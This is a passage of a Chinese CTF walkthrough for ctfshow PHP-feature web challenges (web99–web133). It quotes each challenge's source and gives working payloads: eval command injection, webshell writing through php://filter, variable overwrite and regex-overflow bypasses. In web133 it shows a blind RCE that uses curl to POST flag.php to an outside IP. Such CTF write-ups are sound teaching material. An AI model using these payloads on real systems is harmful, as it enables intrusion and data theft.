>
> 这里我们只要GET随便传入一个数据让post替换get
>
> 然后post传入 HTTP_FLAG=flag
>
> 这样最后highlight_file就能去显示$flag
>

这道题一开始没看懂代码，看了上面大佬的解释感觉其实也不难


#### web99

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-18 22:36:12
# @link: https://ctfer.com

*/

highlight_file(__FILE__);
$allow = array();
for ($i=36; $i < 0x36d; $i++) { 
    array_push($allow, rand(1,$i));
}
if(isset($_GET['n']) && in_array($_GET['n'], $allow)){
    ($_GET['n'], $_POST['content']);
}

?>
```

这道题首先是创建了一个数组，然后通过循环写入数字（范围0~0x36d）


接着对传入的n进行判断，判断其是否在数组中，若存在则以n为名字创建一个文件并写入content的内容

我们需要知道的是：

> 在弱类型中当php字符串和int比较时,字符串会被转换成int，所以 字符串中数字后面的字符串会被忽略。题目中的in_array没有设置type,我们可以输入字符串5.php(此处数字随意，只要在rand(1,0x36d)之间即可),转换之后也就是5,明显是在题目中生成的数组中的

所以我们通过传入content写马后，通过蚁剑连接或者直接命令执行即可得到flag


#### web100

```php
<?php

/*
\# -*- coding: utf-8 -*-
\# @Author: h1xa
\# @Date:  2020-09-16 11:25:09
\# @Last Modified by:  h1xa
\# @Last Modified time: 2020-09-21 22:10:28
\# @link: https://ctfer.com

*/

highlight_file(__FILE__);
include("ctfshow.php");
//flag in class ctfshow;
$ctfshow = new ctfshow();
$v1=$_GET['v1'];
$v2=$_GET['v2'];
$v3=$_GET['v3'];
$v0=is_numeric($v1) and is_numeric($v2) and is_numeric($v3);
if($v0){
  if(!preg_match("/\;/", $v2)){
    if(preg_match("/\;/", $v3)){
      eval("$v2('ctfshow')$v3");
    }
  }
  
}


?>
```

这题其实就是一道简单的拼接题

```
$v0=is_numeric($v1) and is_numeric($v2) and is_numeric($v3);
```

这里看起来像是要求v1，v2，v3都为数字，实际上只需v1为数字则会将v1赋给v0，而不会再执行后面的语句

所以我们这里只需要使v1为数字即可

payload:

```
?v1=21&v2=var_dump($ctfshow)/*&v3=*/;
```

或者用命令

```cobol
?v1=1&v2=system('ls')/*&v3=*/;
```



将0x2d更换成-得到flag

#### web101

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-22 00:26:48
# @link: https://ctfer.com

*/

highlight_file(__FILE__);
include("ctfshow.php");
//flag in class ctfshow;
$ctfshow = new ctfshow();
$v1=$_GET['v1'];
$v2=$_GET['v2'];
$v3=$_GET['v3'];
$v0=is_numeric($v1) and is_numeric($v2) and is_numeric($v3);
if($v0){
    if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\\$|\%|\^|\*|\)|\-|\_|\+|\=|\{|\[|\"|\'|\,|\.|\;|\?|[0-9]/", $v2)){
        if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\\$|\%|\^|\*|\(|\-|\_|\+|\=|\{|\[|\"|\'|\,|\.|\?|[0-9]/", $v3)){
            eval("$v2('ctfshow')$v3");
        }
    }
    
}

?>
```

题目描述:修补100题非预期,替换0x2d

修补了上一题通过直接命令执行或者var_dump打印类的方法

我们可以尝试使用反射类的方法，利用题目给出的`('ctfshow')`来拼接打印类

payload:

```
?v1=1&v2=echo new Reflectionclass&v3=;
```



这道题的flag少了一位，在得到的flag在替换掉0x2d后，再进行爆破即可得到flag

payload:

```python
a = "fa2a169a0x2da0820x2d40f30x2da5cd0x2d65ce0d29b42"
b = a.replace("0x2d","-")
hex = ["1","2","3","4","5","6","7","8","9","a","b","c","d","e"]
for i in hex:
    print("ctfshow{"+b+i+"}")
```

#### web102

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: atao
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-23 20:59:43

*/


highlight_file(__FILE__);
$v1 = $_POST['v1'];
$v2 = $_GET['v2'];
$v3 = $_GET['v3'];
$v4 = is_numeric($v2) and is_numeric($v3);
if($v4){
    $s = substr($v2,2);
    $str = call_user_func($v1,$s);
    echo $str;
    file_put_contents($v3,$str);
}
else{
    die('hacker');
}


?>
```

分析一下这段代码

首先这段代码会接收三个参数v1,v2,v3

根据php的特性，当$v2为数字时$v4就会被赋值为1，而与$v3的值无关

所以想要进入判断，我们首先要使v2为数字

接着会通过substr对v2前两段进行截断并赋值给s

下一步就会将v1和s都传入call_user_func函数


**call_user_func函数有什么用呢?**

`call_user_func` 是 PHP 中的一个内置函数，它的主要作用是调用回调函数。

```
function greet($name) {
    return "Hello, $name!";
}

$message = call_user_func('greet', 'John');
echo $message; 
```


我们先不管他怎么利用，接着往下看

最后会调用file_put_contents函数，那思路就很明显了，我们通过写文件来拿到flag

但是我们要将v2这一串数字经过一系列转换后写入文件并执行要怎么做呢？

假如说我们可以将php代码转换成base64后再转换成hex，而得到的hex又刚好为数字，那我们就能实现我们的目标。

**那怎么进行格式转换呢?**

我们可以通过call_user_func函数调用php的内置类hex2bin，将我们传入的v2转换回base64编码，接着在写文件的时候，再通过php伪协议的方式将base64先转换为我们的代码再写入文件。

经过尝试我们可以得到符合条件的代码

```
<?=`cat *`;
base64:PD89YGNhdCAqYDs= (转hex去掉=)
hex:5044383959474E6864434171594473
```

我们需要在hex前面随便加两位数字来绕过截断

payload:

```
v1=hex2bin
v2=665044383959474E6864434171594473&v3=php://filter/write=convert.base64-decode/resource=1.php
```


#### web103

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: atao
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-23 21:03:24

*/


highlight_file(__FILE__);
$v1 = $_POST['v1'];
$v2 = $_GET['v2'];
$v3 = $_GET['v3'];
$v4 = is_numeric($v2) and is_numeric($v3);
if($v4){
    $s = substr($v2,2);
    $str = call_user_func($v1,$s);
    echo $str;
    if(!preg_match("/.*p.*h.*p.*/i",$str)){
        file_put_contents($v3,$str);
    }
    else{
        die('Sorry');
    }
}
else{
    die('hacker');
}

?>
```

这题相比上一题多了一个过滤

```
if(!preg_match("/.*p.*h.*p.*/i",$str)){
        file_put_contents($v3,$str);
    }
    else{
        die('Sorry');
    }
```

继续用上题的方法即可

payload:

```
v1=hex2bin
v2=665044383959474E6864434171594473&v3=php://filter/write=convert.base64-decode/resource=1.php
```

#### web104

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: atao
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-28 22:27:20

*/


highlight_file(__FILE__);
include("flag.php");

if(isset($_POST['v1']) && isset($_GET['v2'])){
    $v1 = $_POST['v1'];
    $v2 = $_GET['v2'];
    if(sha1($v1)==sha1($v2)){
        echo $flag;
    }
}


?>
```

使v1=v2即可

```
v1=1
v2=1
```

#### web105

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Firebasky
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-28 22:34:07

*/

highlight_file(__FILE__);
include('flag.php');
error_reporting(0);
$error='你还想要flag嘛？';
$suces='既然你想要那给你吧！';
foreach($_GET as $key => $value){
    if($key==='error'){
        die("what are you doing?!");
    }
    $$key=$$value;
}foreach($_POST as $key => $value){
    if($value==='flag'){
        die("what are you doing?!");
    }
    $$key=$$value;
}
if(!($_POST['flag']==$flag)){
    die($error);
}
echo "your are good".$flag."\n";
die($suces);

?>
```

- 本题考查变量覆盖和`die()`的知识

- `$$a = $$b`可以类似于，将$a的地址指向$b

  所以无论$b怎么改变值，$a的值都会和$b一样

- `die()`函数虽然会终止程序，但同时也会输出括号内的终止提示信息


方法一：

本题利用变量覆盖和`die()`函数的特性

1. 先对get的内容进行覆盖，且不能覆盖error，所以要覆盖suces，即?suces=flag，此时suces=>flag的地址
2. 再对post的内容进行覆盖，且不能将flag直接覆盖，所以只能error=suces，此时error=>flag的地址
3. 此时无论进入哪个`die()`函数，都可以输出`$flag`的值

payload:

```
Get: suces=flag
POST: error=suces
```

方法二：

```
Get: ?suces=flag&flag=
```

先将flag的值赋给suces，再将flag的值赋为空，从而通过判断，输出suces的值


#### web106

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: atao
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-28 22:38:27

*/


highlight_file(__FILE__);
include("flag.php");

if(isset($_POST['v1']) && isset($_GET['v2'])){
    $v1 = $_POST['v1'];
    $v2 = $_GET['v2'];
    if(sha1($v1)==sha1($v2) && $v1!=$v2){
        echo $flag;
    }
}


?>
```

我们使用数组绕过即可

```
v1[]=1
v2[]=0
```


#### web107

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-28 23:24:14

*/


highlight_file(__FILE__);
error_reporting(0);
include("flag.php");

if(isset($_POST['v1'])){
    $v1 = $_POST['v1'];
    $v3 = $_GET['v3'];
       parse_str($v1,$v2);
       if($v2['flag']==md5($v3)){
           echo $flag;
       }

}


?>
```

parse_str函数:它用于将字符串解析为变量，如果 str 是 URL 传递入的查询字符串（query string），则将它解析为变量并设置到当前作用域（如果提供了 arr 则会设置到该数组里 ）。

```php
<?php
   //parse_str()将查询的字符串解析到变量中
   parse_str("name=Gopal K Verma&age=45");
   
   echo $name."<br>";
   echo $age;
?>
```

其实实际上就是md5弱比较

方法一：随便给一个值给flag，将MD5转换后的值赋给v3

```
v3=1
v1=flag=c4ca4238a0b923820dcc509a6f75849b
```

方法二:数组绕过

```
v3[]=1
v1="flag[]=1"
```


#### web108

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-28 23:53:55

*/


highlight_file(__FILE__);
error_reporting(0);
include("flag.php");

if (ereg ("^[a-zA-Z]+$", $_GET['c'])===FALSE)  {
    die('error');

}
//只有36d的人才能看到flag
if(intval(strrev($_GET['c']))==0x36d){
    echo $flag;
}

?>
```

题目给出的0x36d为16进制数，十进制为877，需要字母开头或结尾的话为877a，因为是==弱比较，可以等同于877，逆序后为a778,直接读取不行，需要加一个截断%00来绕过正则的判断。

payload

```
GET:?c=a%00778
```


#### web109

考点:php原生类利用

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-29 22:02:34

*/


highlight_file(__FILE__);
error_reporting(0);
if(isset($_GET['v1']) && isset($_GET['v2'])){
    $v1 = $_GET['v1'];
    $v2 = $_GET['v2'];

    if(preg_match('/[a-zA-Z]+/', $v1) && preg_match('/[a-zA-Z]+/', $v2)){
            eval("echo new $v1($v2());");
    }

}

?>
```

关于php原生类的利用

https://blog.csdn.net/weixin_54902210/article/details/124689580

payload:

```
v1=Exception&v2=system('cat fl36dg.txt') 
or
v1=Reflectionclass&v2=system('cat fl36dg.txt')
```

其他的原生类也行，比如Error

#### web110

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-29 22:49:10

*/


highlight_file(__FILE__);
error_reporting(0);
if(isset($_GET['v1']) && isset($_GET['v2'])){
    $v1 = $_GET['v1'];
    $v2 = $_GET['v2'];

    if(preg_match('/\~|\`|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\-|\+|\=|\{|\[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]/', $v1)){
            die("error v1");
    }
    if(preg_match('/\~|\`|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\-|\+|\=|\{|\[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]/', $v2)){
            die("error v2");
    }

    eval("echo new $v1($v2());");

}

?>
```

依旧是对php原生类的利用

但是增加了对v1和v2的过滤，但是它没有过滤字母，考虑用纯字母构造payload

类`FilesystemIterator`可以用来遍历目录，需要一个路径参数

函数`getcwd`可以返回当前工作路径且不需要参数，由此可以构造payload

```
https://fded39f6-0eb1-430b-8f4f-42fd69937aed.challenge.ctf.show?v1=FilesystemIterator&v2=getcwd
```


得到flag的位置,直接访问即可


#### web111

```PHP
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-30 02:41:40

*/

highlight_file(__FILE__);
error_reporting(0);
include("flag.php");

function getFlag(&$v1,&$v2){
    eval("$$v1 = &$$v2;");
    var_dump($$v1);
}


if(isset($_GET['v1']) && isset($_GET['v2'])){
    $v1 = $_GET['v1'];
    $v2 = $_GET['v2'];

    if(preg_match('/\~| |\`|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\-|\+|\=|\{|\[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]|\<|\>/', $v1)){
            die("error v1");
    }
    if(preg_match('/\~| |\`|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\-|\+|\=|\{|\[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]|\<|\>/', $v2)){
            die("error v2");
    }
    
    if(preg_match('/ctfshow/', $v1)){
            getFlag($v1,$v2);
    }
   
}
?>
```

这题是关于变量覆盖的题目

由于

```
if(preg_match('/ctfshow/', $v1)){
            getFlag($v1,$v2);
    }
```

所有我们可以确定v1的值只能为ctfshow

接下来看getFlag函数

```
function getFlag(&$v1,&$v2){
    eval("$$v1 = &$$v2;");
    var_dump($$v1);
}
```

getFlag函数会将v1的地址指向v2，也就是说会使v1的值等于v2

var_dump则会输出变量的相关信息

那我们只需要使v2的值等于我们要查询的变量就可以读到我们的flag

但是问题来了，我们不知道要查的变量是什么，也不知道是不是在作用域里面

所这里使用超全局变量 $GLOBALS，$GLOBALS 是PHP的一个超级全局变量组，包含了全部变量的全局组合数组，变量的名字就是数组的键。

构造payload把所有全局变量全输出来

```
https://feec7abc-68b0-4b95-86bc-1db857e3624a.challenge.ctf.show?v1=ctfshow&v2=GLOBALS
```


#### web112

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Firebasky
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-30 23:47:49

*/

highlight_file(__FILE__);
error_reporting(0);
function filter($file){
    if(preg_match('/\.\.\/|http|https|data|input|rot13|base64|string/i',$file)){
        die("hacker!");
    }else{
        return $file;
    }
}
$file=$_GET['file'];
if(!is_file($file)){
    highlight_file(filter($file));
}else{
    echo "hacker!";
}
```

这题考察的是php伪协议，虽然被ban了data、input 等伪协议，又ban了 string、data、rot13 相关的过滤器，但是还是有不少能用的伪协议和过滤器

如 php://filter（这里也用不到过滤器）

```
https://c9c112c8-f426-4008-9e05-712cff76e02c.challenge.ctf.show/?file=php://filter/resource=flag.php
```

其他

```
php://filter/convert.iconv.UCS-2LE.UCS-2BE/resource=flag.php
php://filter/read=convert.quoted-printable-encode/resource=flag.php
compress.zlib://flag.php
```

**为什么不能直接输入flag.php呢?**

```
if(!is_file($file)){
    highlight_file(filter($file));
}else{
    echo "hacker!";
}
```

那是因为is_file("flag.php")==true，输出hacker！


#### web113

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Firebasky
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-30 23:47:52

*/

highlight_file(__FILE__);
error_reporting(0);
function filter($file){
    if(preg_match('/filter|\.\.\/|http|https|data|data|rot13|base64|string/i',$file)){
        die('hacker!');
    }else{
        return $file;
    }
}
$file=$_GET['file'];
if(! is_file($file)){
    highlight_file(filter($file));
}else{
    echo "hacker!";
}
```

这题相比上题把filter过滤了

我们可以考虑使用其他伪协议

如 compress.zlib://

```
compress.zlib://flag.php
```


**官方题解** 目录溢出导致is_file认为这不是一个文件

```
/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/p
roc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/pro
c/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/
self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/se
lf/root/proc/self/root/var/www/html/flag.php
```


#### web114

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Firebasky
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-01 15:02:53

*/

error_reporting(0);
highlight_file(__FILE__);
function filter($file){
    if(preg_match('/compress|root|zip|convert|\.\.\/|http|https|data|data|rot13|base64|string/i',$file)){
        die('hacker!');
    }else{
        return $file;
    }
}
$file=$_GET['file'];
echo "师傅们居然tql都是非预期 哼！";
if(! is_file($file)){
    highlight_file(filter($file));
}else{
    echo "hacker!";
}
```

这题ban掉了compress和root没办法使用上题的两种解法，但是把filter放出来了

```
php://filter/resource=flag.php
```

直接读就完事了


#### web115

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Firebasky
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-01 15:08:19

*/

include('flag.php');
highlight_file(__FILE__);
error_reporting(0);
function filter($num){
    $num=str_replace("0x","1",$num);
    $num=str_replace("0","1",$num);
    $num=str_replace(".","1",$num);
    $num=str_replace("e","1",$num);
    $num=str_replace("+","1",$num);
    return $num;
}
$num=$_GET['num'];
if(is_numeric($num) and $num!=='36' and trim($num)!=='36' and filter($num)=='36'){
    if($num=='36'){
        echo $flag;
    }else{
        echo "hacker!!";
    }
}else{
    echo "hacker!!!";
}
```

参考文章:[ctfshow学习记录-web入门（php特性109-115&123&125-126）_ctfshow web109-CSDN博客](https://blog.csdn.net/m0_48780534/article/details/125523030)

is_numeric可以在数字前面加空格绕过，同时加上空格也可以绕过$num!='36'

但是我们知道trim函数是移除字符串两侧的空白字符或其他预定义字符，空格等字符是会被去掉的

我们这里考虑使用%0c（换页符）进行绕过

同时使用%0c也可以绕过filter。

接下来再看第二个if判断，这是看起来很矛盾的一个判断。

来具体看一下!==的定义，只要类型不同就不全等。


> 如果比较一个数字和字符串或者比较涉及到数字内容的字符串，则字符串会被转换为数值并且比较按照数值来进行。此规则也适用于 switch 语句。当用 === 或 !== 进行比较时则不进行类型转换，因为此时类型和数值都要比对。
> 										——《php手册》语言参考-运算符-比较运算符

也就是说!==时不进行类型转换。

所以加上%0c换页符，在==进行类型转换，所有%0c36会被转换为数值36，结果true；在!==不进行类型转换，所以字符串和数值比较，类型不同，结果true。

payload：

```
?num=%0c36
```


#### web123

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Firebasky
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 22:02:47
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/
error_reporting(0);
highlight_file(__FILE__);
include("flag.php");
$a=$_SERVER['argv'];
$c=$_POST['fun'];
if(isset($_POST['CTF_SHOW'])&&isset($_POST['CTF_SHOW.COM'])&&!isset($_GET['fl0g'])){
    if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\%|\^|\*|\-|\+|\=|\{|\}|\"|\'|\,|\.|\;|\?/", $c)&&$c<=18){
         eval("$c".";");  
         if($fl0g==="flag_give_me"){
             echo $flag;
         }
    }
}
?>
```

这题其实根本不用理会

```
         if($fl0g==="flag_give_me"){
             echo $flag;
         }
```

这题对c进行了一定的限制，但是影响不大我们可以直接再eval处执行echo $flag;从而拿到flag

这题还有一个考点，由于在php中变量名只有数字字母下划线，被get或者post传入的变量名，如果含有空格、+、[则会被转化为_，所以按理来说我们构造不出CTF_SHOW.COM这个变量(因为含有.)，但php中有个特性就是如果传入[，它被转化为_之后，后面的字符就会被保留下来不会被替换

payload:

```
POST:CTF_SHOW=1&CTF[SHOW.COM=1&fun= echo $flag
```


#### web125

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Firebasky
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 22:02:47
#
#
*/
error_reporting(0);
highlight_file(__FILE__);
include("flag.php");
$a=$_SERVER['argv'];
$c=$_POST['fun'];
if(isset($_POST['CTF_SHOW'])&&isset($_POST['CTF_SHOW.COM'])&&!isset($_GET['fl0g'])){
    if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\%|\^|\*|\-|\+|\=|\{|\}|\"|\'|\,|\.|\;|\?|flag|GLOBALS|echo|var_dump|print/i", $c)&&$c<=16){
         eval("$c".";");
         if($fl0g==="flag_give_me"){
             echo $flag;
         }
    }
}
?>
```

这题把上题的echo方法和flag关键词ban了

考虑通过二次传参的方法读flag

我一开始考虑了system二次传参的方法，但是system方法应该是被ban掉了

后面尝试highlight_file方法成功读到flag

payload:

```
POST CTF_SHOW=1&CTF[SHOW.COM=1&fun=highlight_file($_GET[1])
GET 1=flag.php
```

其他的 payload：

```php
POST CTF_SHOW=&CTF[SHOW.COM=&fun=var_export(get_defined_vars())
```

#### web126

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Firebasky
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 22:02:47
#
#
*/
error_reporting(0);
highlight_file(__FILE__);
include("flag.php");
$a=$_SERVER['argv'];
$c=$_POST['fun'];
if(isset($_POST['CTF_SHOW'])&&isset($_POST['CTF_SHOW.COM'])&&!isset($_GET['fl0g'])){
    if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\%|\^|\*|\-|\+|\=|\{|\}|\"|\'|\,|\.|\;|\?|flag|GLOBALS|echo|var_dump|print|g|i|f|c|o|d/i", $c) && strlen($c)<=16){
         eval("$c".";");  
         if($fl0g==="flag_give_me"){
             echo $flag;
         }
    }
}

```

基本上ban掉了能读文件的函数

参考[ctfshow-web入门-php特性（web123、web125、web126）_ctfshow web123-CSDN博客](https://blog.csdn.net/Myon5/article/details/140464776)

payload:

```
get：?$fl0g=flag_give_me;
post：CTF_SHOW=&CTF[SHOW.COM=&fun=eval($a[0])
or
GET:?$fl0g=flag_give_me
POST:CTF_SHOW=&CTF[SHOW.COM=&fun=assert($a[0])
```

这里的查询字符串没有包含 fl0g，但包含了 $fl0g。由于 PHP 中的变量名不包括 $ 符号，所以 isset($_GET['fl0g']) 仍然会返回 false，即没有检测到 fl0g 参数。

post 传入 CTF_SHOW 和 CTF_SHOW.COM 确保 isset($_POST['CTF_SHOW']) && isset($_POST['CTF_SHOW.COM']) 这部分条件为真，fun=eval($a[0]) 将 eval($a[0]) 的代码传递给 $c。

准确来说，此时的 $_SERVER[‘argv’][0] 就等于 $_SERVER[‘QUERY_STRING’]，$_SERVER["QUERY_STRING"] 就是查询 (query) 的字符串，这是由于 php.ini 开启了register_argc_argv 配置项。

当访问 ?$fl0g=flag_give_me; 时，服务器配置使得查询字符串被传递到 $_SERVER['argv'] 中。
在这种配置下，$_SERVER['argv'][0] 包含了整个查询字符串，即 '$fl0g=flag_give_me;'。

在 eval("$c;"); 中实际执行的是 eval('eval($a[0]);');，因为 $a[0] 是 '$fl0g=flag_give_me;'，这相当于执行了 eval('$fl0g=flag_give_me;');，这样就定义了变量 $fl0g 并赋值为 'flag_give_me'。

最后 判断 if($fl0g === "flag_give_me")，因为 $fl0g 被正确地设置为了 'flag_give_me'，所以这个条件为真，因此，echo $flag; 被执行，输出 $flag。


其他payload:

```
GET:?a=1+fl0g=flag_give_me
POST:CTF_SHOW=&CTF[SHOW.COM=&fun=parse_str($a[1])
```

也同样是为了使fl0g=flag_give_me


#### web127

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-10-10 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-10 21:52:49

*/


error_reporting(0);
include("flag.php");
highlight_file(__FILE__);
$ctf_show = md5($flag);
$url = $_SERVER['QUERY_STRING'];


//特殊字符检测
function waf($url){
    if(preg_match('/\`|\~|\!|\@|\#|\^|\*|\(|\)|\\$|\_|\-|\+|\{|\;|\:|\[|\]|\}|\'|\"|\<|\,|\>|\.|\\\|\//', $url)){
        return true;
    }else{
        return false;
    }
}

if(waf($url)){
    die("嗯哼？");
}else{
    extract($_GET);
}


if($ctf_show==='ilove36d'){
    echo $flag;
}
```

变量覆盖

由于下划线被waf了，我们可以传ctf%20show，php会将空格解析成_

payload:

```
ctf%20show=ilove36d
```


#### web128

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-10-10 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-12 19:49:05

*/


error_reporting(0);
include("flag.php");
highlight_file(__FILE__);

$f1 = $_GET['f1'];
$f2 = $_GET['f2'];

if(check($f1)){
    var_dump(call_user_func(call_user_func($f1,$f2)));
}else{
    echo "嗯哼？";
}


function check($str){
    return !preg_match('/[0-9]|[a-z]/i', $str);
} 
```
什么是Gettext函数

[PHP: Gettext - Manual](https://www.php.net/manual/zh/book.gettext.php)

骚操作

```
小知识点： _()是一个函数

_()==gettext() 是gettext()的拓展函数，开启text扩展。需要php扩展目录下有php_gettext.dll

get_defined_vars()函数

get_defined_vars — 返回由所有已定义变量所组成的数组 这样可以获得 $flag

payload: ?f1=_&f2=get_defined_vars
```


#### web129

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-10-13 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-13 03:18:40

*/


error_reporting(0);
highlight_file(__FILE__);
if(isset($_GET['f'])){
    $f = $_GET['f'];
    if(stripos($f, 'ctfshow')>0){
        echo readfile($f);
    }
}
```

stripos() 函数查找字符串在另一字符串中第一次出现的位置

所以我们要考虑在ctfshow前面放点什么，但又不影响我们读文件

可以联想到目录穿越

payload:

```
/ctfshow/../../../../../../../../../../var/www/html/flag.php
```


#### web130

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-10-13 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-13 05:19:40

*/


error_reporting(0);
highlight_file(__FILE__);
include("flag.php");
if(isset($_POST['f'])){
    $f = $_POST['f'];

    if(preg_match('/.+?ctfshow/is', $f)){
        die('bye!');
    }
    if(stripos($f, 'ctfshow') === FALSE){
        die('bye!!');
    }

    echo $flag;

}
```

> '/.+?ctfshow/is' 后面的i表示大小写匹配，s表示忽略换行符，单行匹配
>
> 在不加转义字符的前提下，前面的点表示任意字符，而“+?”表示非贪婪匹配，即前面的字符至少出现一次
>
> 所以，该正则匹配的意思为：ctfshow前面如果出现任意字符，即匹配准确
>
> 再根据下面的stripos为字符串匹配函数，要求输入的参数必须有“ctfshow”字符，所以输入的参数只需要满足ctfshow前面不加任意字符即可

payload

```
POST f=ctfshow
```


#### web131

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-10-13 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-13 05:19:40

*/


error_reporting(0);
highlight_file(__FILE__);
include("flag.php");
if(isset($_POST['f'])){
    $f = (String)$_POST['f'];

    if(preg_match('/.+?ctfshow/is', $f)){
        die('bye!');
    }
    if(stripos($f,'36Dctfshow') === FALSE){
        die('bye!!');
    }

    echo $flag;

}

```

正则表达式溢出 https://www.laruence.com/2010/06/08/1579.html 

payload:

```
#payload:
<?php
echo str_repeat('very', '250000').'36Dctfshow';
```

不宜过多，过多会


#### web132


/admin

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-10-13 06:22:13
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-13 20:05:36
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

#error_reporting(0);
include("flag.php");
highlight_file(__FILE__);


if(isset($_GET['username']) && isset($_GET['password']) && isset($_GET['code'])){
    $username = (String)$_GET['username'];
    $password = (String)$_GET['password'];
    $code = (String)$_GET['code'];

    if($code === mt_rand(1,0x36D) && $password === $flag || $username ==="admin"){
        
        if($code == 'admin'){
            echo $flag;
        }
        
    }
}
```


第一个判断后面用的是或

也就是说只要使username等于admin即可，前面两个无所谓了

第二个判断让code等于admin即可

payload： 

```
GET:?code=admin&username=admin&password=
```


#### web133

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Firebasky
# @Date:   2020-10-13 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-13 16:43:44

*/

error_reporting(0);
highlight_file(__FILE__);
//flag.php
if($F = @$_GET['F']){
    if(!preg_match('/system|nc|wget|exec|passthru|netcat/i', $F)){
        eval(substr($F,0,6));
    }else{
        die("6个字母都还不够呀?!");
    }
}
```

[ctfshow web133(变量覆盖+无回显命令执行dns_bp带外) - hithub - 博客园](https://www.cnblogs.com/hithub/p/16809053.html)

这其实是一道关于变量覆盖的题目

```
get传参   F=`$F `;sleep 3
经过substr($F,0,6)截取后 得到  `$F `;
也就是会执行 eval("`$F `;");
我们把原来的$F带进去
eval("``$F `;sleep 3`");
也就是说最终会执行  `   `$F `;sleep 3  ` == shell_exec("`$F `;sleep 3");
前面的命令我们不需要管，但是后面的命令我们可以自由控制。
这样就在服务器上成功执行了 sleep 3
所以 最后就是一道无回显的RCE题目了
```

payload:

```
`$F `;cat flag.php | curl -X POST -d @- http://106.55.168.231:7777/
```

curl外带rce


#### web134

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Firebasky
# @Date:   2020-10-13 11:25:09
# @Last Modified by:   h1xa
